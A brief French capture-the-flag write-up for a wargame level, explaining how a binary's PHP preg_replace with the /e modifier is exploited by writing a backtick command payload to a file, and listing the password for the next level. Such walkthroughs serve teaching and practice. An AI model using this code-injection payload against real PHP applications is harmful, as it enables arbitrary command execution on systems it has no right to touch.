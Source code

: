 ## 1. Analyser le fichier binaire level06

On voit qu'il prend 2 parametres, le deuxieme est optionnel. Et appelle une fonction x pour avoir le contenu du premier parametre.

## 2. Exploiter la faille preg_replace("/(\[x (.*)\])/e"

/e permet d'executer la chaine de remplacement

    echo '[x ${`getflag`}]' > /tmp/token

## 3. Connexion

su level07

    Mot de passe : wiok45aaoguiboiki2tuin6ub